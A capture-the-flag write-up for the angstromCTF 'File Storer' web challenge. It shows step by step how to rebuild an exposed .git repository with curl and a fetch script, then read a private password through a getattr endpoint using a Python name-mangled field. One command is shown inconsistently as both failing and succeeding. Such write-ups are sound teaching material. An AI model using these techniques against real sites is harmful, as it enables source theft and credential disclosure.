


# File Storer (Web, 160 pts)

### [~$ cd ..](../)

> ```
> My friend made a file storage website that he says is super secure. Can you prove him wrong and get the admin password?
> ```

We then face a signup form:



and once registration is done, we get a formular allowing us to upload files:



At the beginning, I thought that it was the way to get the flag, but actually, it was the wrong path. Uploaded files are useless, and the important thing
is the location where they are stored. By uploading a file, its name appears in a list, and we can see that it stored at http://web2.angstromctf.com:8899/files/...

I then tried some likely names, and saw that index.py gave me a result, but not what I expected, because I received: "no! bad user! bad!".

Finally, I found the hidden .git folder, and it was actually the right way. Unfortunately, it was not possible to download it directly, I had to find a way
to rebuild locally a similar project:

> ```bash
> ~$ mkdir filestorer
> ~$ cd filestorer
> ~$ git init
> 	Initialized empty Git repository in .../filestorer/.git/
> ~$ mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}}
> ~$ rm config
> ~$ wget http://web2.angstromctf.com:8899/files/.git/config
> ```

I then created folders used by git, and set up the same config as it was on the website. 

Then, I donwloaded some known files:

> ```bash
> ~$ cd .git
> ~$for file in HEAD config description info/exclude refs/heads/master; do
>for>	curl "http://web2.angstromctf.com:8899/files/.git/${file}" > "${file}";
> ~$ done;
> 	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--  100    23  100    23    0     0    110      0 --:--:-- --:--:-- --:--:--   110
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--  100    93  100    93    0     0    461      0 --:--:-- --:--:-- --:--:--   462
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100    73  100    73    0     0     59      0  0:00:01  0:00:01 --:--:--    59
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100   240  100   240    0     0    193      0  0:00:01  0:00:01 --:--:--   193
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100    41  100    41    0     0     32      0  0:00:01  0:00:01 --:--:--    32
> ```

And then tried to get file names

> ```bash
> ~$ git log
>	fatal: bad object HEAD
> ~$ cat .git/refs/heads/master 
>	1233bdadb67c905af6516a2e1b94ebf32a0a2f61
> ```

by using this script [fetch](fetch)

> ```bash
>#!/bin/bash
>hash="${1}";
>folder="${hash:0:2}";
>file="${hash:2:38}";
>mkdir -p ".git/objects/${folder}";
>path=".git/objects/${folder}/${file}";
>curl -s "http://web2.angstromctf.com:8899/files/${path}" > "${path}";
> ```

and ran

> ```bash
> ~$ ./fetch 1233bdadb67c905af6516a2e1b94ebf32a0a2f61
> ```

As long as I got errors, I downloaded expected files:

> ```bash
> ~$ git log
>	commit 1233bdadb67c905af6516a2e1b94ebf32a0a2f61
	Author: kmh11 <hoppykev@gmail.com>
>	Date:   Tue Aug 29 21:09:49 2017 -0400
>
>		first commit
> ~$ git checkout -f
>	error: Could not read 5528cb84ba39060910e309688e2b340084623899
> ~$ ./fetch 5528cb84ba39060910e309688e2b340084623899
> ~$ git checkout -f                                 
>	fatal: unable to read tree 639c13293220ac138c16cddfa9bea84d16e0d1a7
> ~$ ./fetch 639c13293220ac138c16cddfa9bea84d16e0d1a7
> ~$ git checkout -f                                 
>	error: unable to read sha1 file of index.py (aa168eed25aa55fff21054a858329cb4e1187ff0)
>	error: unable to read sha1 file of requirements.txt (b8e1848501840d89d32c3f8eadfafe38a78f8203)
>	error: unable to read sha1 file of templates/index.html (4331a907733114461f8ce52a3076c48ac26c00c2)
>	error: unable to read sha1 file of templates/loggedout.html (29fff8b2c54b09cf0318dde83d1bcbdc1d6d22e8)
>	error: invalid object 100644 4331a907733114461f8ce52a3076c48ac26c00c2 for 'templates/index.html'
> ~$ ./fetch aa168eed25aa55fff21054a858329cb4e1187ff0
> ~$ ./fetch b8e1848501840d89d32c3f8eadfafe38a78f8203
> ~$ ./fetch 4331a907733114461f8ce52a3076c48ac26c00c2
> ~$ ./fetch 29fff8b2c54b09cf0318dde83d1bcbdc1d6d22e8
> ~$ git checkout -f                                 
> ```

I downloaded all files, but the most important one was [index.py](index.py), containg these lines:

> ```python
> ...
>class user:
>    def __init__(self, username, password):
>        self.username = username
>        self.__password = password
>        self.files = []
>    def getPass(self):
>        return self.__password
>
>users = {}
>
>users["admin"] = user("admin", os.environ["FLAG"])
> ...
>#beta feature for viewing info about other users - still testing
>@app.route("/user/<username>", methods=['POST'])
>def getInfo(username):
>    val = getattr(users[username], request.form['field'], None)
>    if val != None: return val
>    else: return "error"
>...
> ```

Then, I knew that the solution was to send a POST request on http://web2.angstromctf.com:8899/user/admin, with the parameter "field=__password", but
"__password", with the trailing underscores is a private variable, and it was impossible to read it with

> ```bash
>~$ curl http://web2.angstromctf.com:8899/user/admin -d "field=_user__password"
> ```

According to the [documentation](https://docs.python.org/3/tutorial/classes.html#tut-private), these variables are textually replaced with `_classname__var`. Then, I sent:

> ```
>~$ curl http://web2.angstromctf.com:8899/user/admin -d "field=_user__password"
>	actf{2_und3rsc0res_h1des_n0th1ng}
> ```
